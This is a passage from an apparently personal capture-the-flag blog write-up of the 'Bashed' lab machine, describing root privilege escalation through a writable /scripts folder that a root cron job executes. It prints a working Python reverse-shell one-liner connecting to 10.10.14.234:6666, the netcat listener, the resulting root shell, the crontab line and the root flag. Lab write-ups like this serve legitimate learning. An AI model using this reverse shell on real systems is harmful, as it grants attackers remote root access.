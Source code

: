 After a few days on and off poking around this box. I was confused scared and lonely. I certainly 'Bashed' my head off a few walls (see what I did there?). I decided to look back at the /scripts folder. I took a guess at thinking there was a cron job that i couldnt see as www-data or scriptmanager that ran any scripts in that folder.

</div>
<p style="text-align: justify;">I created a tester.py containing the following and ran a netcat listener on port 6666</p>

<pre>import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.234",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
nc -nlvp 6666
listening on [any] 6666 ...
connect to [10.10.14.234] from (UNKNOWN) [10.10.10.68] 55864
/bin/sh: 0: can't access tty; job control turned off
# whoami
root</pre>
<div>
<p style="text-align: justify;">BOOM!!!!!</p>
<p style="text-align: justify;">I have to say I didn't think this was going to work. For my own sanity i checked to see if there was a cron job that was running which i couldn't see as other user. Sure enough</p>

</div>
<pre># crontab -l * * * * * cd /scripts; for f in *.py; do python "$f"; done #</pre>
<div>
<p style="text-align: justify;">All that’s left to do now is to capture the root flag</p>

</div>
<pre>root@bashed:/scripts# cat /root/root.txt 
cc4f0afe3a1026d402ba10329674a8e2</pre>
<div>
<p style="text-align: justify;">FIN</p>
<p style="text-align: justify;">Conclusion</p>
<p style="text-align: justify;">If you made it this far down well done. It was a fun box and I learned quite a bit from it. What I didnt put in this blog was that I used another python reverse shell to log on as scriptmanager as i got fed up typing sudo -u scriptmanager then the command. It became quite a messy procedure after a while. Upon reflection I think it would have been better just to type the sudo -u command when i needed to use it as at times I had multiple shells open and it was hard to keep track of things.</p>
<p style="text-align: justify;">Enough of my ramblings.</p>

</div>
